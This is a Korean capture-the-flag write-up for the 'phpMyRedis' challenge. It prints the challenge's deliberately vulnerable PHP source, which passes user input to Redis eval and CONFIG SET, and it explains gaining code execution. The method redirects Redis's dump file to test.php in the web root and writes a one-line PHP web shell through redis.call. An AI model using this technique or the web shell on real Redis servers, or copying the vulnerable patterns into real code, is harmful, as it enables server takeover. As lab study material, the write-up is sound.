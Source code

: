 ## phpMyRedis
<hr style="border-top: 1px solid;"><br>

![index.php](https://user-images.githubusercontent.com/52172169/162443204-9116725d-d3b5-46c1-b8b4-8a9975a67608.png)

<br>

index.php

```php
<?php
    include_once "./core.php";
?>
<html>
    <head></head>
    <link rel="stylesheet" href="/static/bulma.min.css" />
    <body>
        <div class="container card">
            <div class="card-content">
                <div class="columns">
                    <div class="column is-10">
                        <h1 class="title">phpMyRedis</h1>
                    </div>
                    <div>
                        <div class="column is-2"><a href="/config.php" class="card-footer-item">Config</a></div>
                    </div>
                </div>
                <form method="post">
                    <div class="field">
                        <label class="label">Command</label>
                        <div class="control">
                            <textarea class="textarea" name="cmd"><?=isset($_POST['cmd'])?$_POST['cmd']:'return 1;'?></textarea>
                        </div>
                        <label class="checkbox">
                            <input type="checkbox" name="save">Save
                        </label>
                    </div>
                    <div class="control">
                        <input class="button is-success" type="submit" value="submit">
                    </div>
                </form>
                <?php 
                    if(isset($_POST['cmd'])){
                        $redis = new Redis();
                        $redis->connect($REDIS_HOST);
                        $ret = json_encode($redis->eval($_POST['cmd']));
                        echo '<h1 class="subtitle">Result</h1>';
                        echo "<pre>$ret</pre>";
                        if (!array_key_exists('history_cnt', $_SESSION)) {
                            $_SESSION['history_cnt'] = 0;
                        }
                        $_SESSION['history_'.$_SESSION['history_cnt']] = $_POST['cmd'];
                        $_SESSION['history_cnt'] += 1;

                        if(isset($_POST['save'])){
                            $path = './data/'. md5(session_id());
                            $data = '> ' . $_POST['cmd'] . PHP_EOL . str_repeat('-',50) . PHP_EOL . $ret;
                            file_put_contents($path, $data);
                            echo "saved at : <a target='_blank' href='$path'>$path</a>";
                        }
                    }
                ?>
            </div>
        </div>
        <br/>
        <div class="container card">
            <div class="card-content">
                <div class="columns">
                    <div class="column is-10">
                        <h1 class="title">Command History</h1>
                    </div>
                    <div class="column is-2"><a href="/reset.php" class="card-footer-item">Reset</a></div>
                </div>
                <div class="content">
                    <ul>
                    <?php
                        for($i=0; $i<$_SESSION['history_cnt']; $i++){
                            echo "<li>".$_SESSION['history_'.$i]."</li>";
                        }
                    ?>
                    </ul>
                </div>
            </div>
        </div>
    </body>
</html>
```

<br>

![config.php](https://user-images.githubusercontent.com/52172169/162443259-15a8f377-3b78-405d-beed-953027a2ad40.png)

<br>

config.php

```php
<?php
    include_once "./core.php";
?>
<html>
    <head></head>
    <link rel="stylesheet" href="/static/bulma.min.css" />
    <body>
        <div class="container card">
            <div class="card-content">
                <div class="columns">
                    <div class="column is-10">
                        <h1 class="title">phpMyRedis</h1>
                    </div>
                    <div>
                        <div class="column is-2"><a href="/" class="card-footer-item">Command</a></div>
                    </div>
                </div>
                <form method="post">
                    <label class="label">Config</label>
                    <div class="field">
                        <div class="control">
                            <div class="select">
                                <select name="option">
                                    <option>GET</option>
                                    <option>SET</option>
                                </select>
                            </div>
                        </div>
                    </div>
                    <div class="field">
                        <label class="label">Key</label>
                        <div class="control">
                            <input class="input" type="text" name="key">
                        </div>
                    </div>
                    <div class="field">
                        <label class="label">Value</label>
                        <div class="control">
                            <input class="input" type="text" name="value">
                        </div>
                    </div>
                    <div class="control">
                        <input class="button is-success" type="submit" value="submit">
                    </div>
                </form>
                <?php 
                    if(isset($_POST['option'])){
                        $redis = new Redis();
                        $redis->connect($REDIS_HOST);
                        if($_POST['option'] == 'GET'){
                            $ret = json_encode($redis->config($_POST['option'], $_POST['key']));
                        }elseif($_POST['option'] == 'SET'){
                            $ret = $redis->config($_POST['option'], $_POST['key'], $_POST['value']);
                        }else{
                            die('error !');
                        }                        
                        echo '<h1 class="subtitle">Result</h1>';
                        echo "<pre>$ret</pre>";
                    }
                ?>
            </div>
        </div>
    </body>
</html>
```


<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

phpredis, eval, config
: <a href="https://github.com/phpredis/phpredis" target="_blank">github.com/phpredis/phpredis</a>
: <a href="https://github.com/phpredis/phpredis#eval" target="_blank">github.com/phpredis/phpredis#eval</a>
: <a href="https://github.com/phpredis/phpredis#config" target="_blank">github.com/phpredis/phpredis#config</a>

<br>

Scripting with Lua
: <a href="https://redis.io/docs/manual/programmability/eval-intro/" target="_blank">redis.io/docs/manual/programmability/eval-intro/</a>

Redis Lua API Ref
: <a href="https://redis.io/docs/manual/programmability/lua-api/#a-namerediscalla-rediscallcommand-arg" target="_blank">redis.io/docs/manual/programmability/lua-api/#a-namerediscalla-rediscallcommand-arg</a>

<br>

redis config get
: <a href="http://redisgate.kr/redis/server/config_get.php" target="_blank">redisgate.kr/redis/server/config_get.php</a>
: <a href="https://bstar36.tistory.com/349" target="_blank">bstar36.tistory.com/349</a>

<br>

강의를 보면 아래와 같은 설명이 있다.
: Redis는 메모리에 데이터를 저장하는 인 메모리(In-Memory) 데이터베이스입니다.
: 메모리는 휘발성이라는 특징을 갖고 있기 때문에 데이터 손실 방지를 위해 일정 시간마다 메모리 데이터를 파일 시스템에 저장합니다. 
: Redis는 명령어를 이용해 메모리 데이터를 저장하는 파일의 저장 주기를 지정하거나 즉시 저장할 수 있으며 저장되는 파일의 경로와 이름, 그리고 저장할 데이터를 함께 설정할 수 있습니다.

<br>

따라서 저장되는 파일의 이름을 내가 원하는 값으로 변경한 후 접근 가능한 디렉토리(```/var/www/html``` or ```/var/www/html/data```)에 있으면 되는 것이다.

<br>

```config get *```을 해주면 모든 설정값이 나오는데 그 중 dbfilename, dir, save 값을 확인하면 아래와 같다.

----> ```"dir":"\/var\/www\/html",  "dbfilename":"dump.rdb" , "save":"3600 1 300 100 60 10000"```

<br>

현재 설정 값을 ```config set dbfilename test.php```, ```config set save 10 1```로 변경하였다.

그 후 Command 페이지에서 ```return redis.call('set','test',"<?php system($_GET['cmd']); ?>");```을 입력해준 뒤 ```/test.php?cmd=ls```를 하면 ls 명령어가 실행된다.

<br>

플래그가 ```/flag```에 있으므로 출력했으나 아무것도 나오지 않았고, ```file /flag```를 하니 ```executable, regular file, no read permission```이라고 떴다.

권한을 보니 execute 권한만 있었다. 따라서 ```cd /; ./flag```를 하니 플래그가 나왔다.

<br><br>
<hr style="border: 2px solid;">
<br><br>
